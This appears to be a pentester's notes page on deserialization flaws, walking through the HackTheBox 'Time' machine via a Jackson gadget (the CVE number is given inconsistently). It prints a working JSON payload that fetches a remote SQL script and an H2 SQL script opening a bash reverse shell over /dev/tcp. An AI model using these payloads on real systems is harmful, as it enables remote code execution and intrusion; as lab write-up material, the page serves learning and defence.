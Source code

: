 # Deserialization

Deserialization vulnerabilities occur when a website handles and decodes **unsanitised user-input** (like cookies), allowing for attackers to inject code. 

## Unserialize then Serialize

Here's a workflow diagram of how objects could be processed in a web application:

<figure><img src="../.gitbook/assets/image (2597).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Suppose that a PHP website (that I have the source code to) checks for a `user_cookie` variable, and not present, it would call `serialize()` to create it. If present, it calls `unserialize()` to process it and check for variables like `usernames`.

This usage of `unserialize()` is dangerous since it allows for code execution if given a specific `user_cookie` value, allowing for attackers to send in malicious payloads to be deserialized.

Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

This kind of attack mainly leads to RCE or DoS conditions on a website.

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a JSON beautifier web application.

<figure><img src="../.gitbook/assets/image (2458).png" alt=""><figcaption></figcaption></figure>

If some non-JSON input is entered, it returns this error

<figure><img src="../.gitbook/assets/image (1970).png" alt=""><figcaption></figcaption></figure>

So, the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384 for this particular machine, which is an RCE exploit involving passing a specific JSON object for RCE:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the machine send a request to an attacker-specified URL and run any SQL scripts downloaded. The script below executes a reverse shell:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```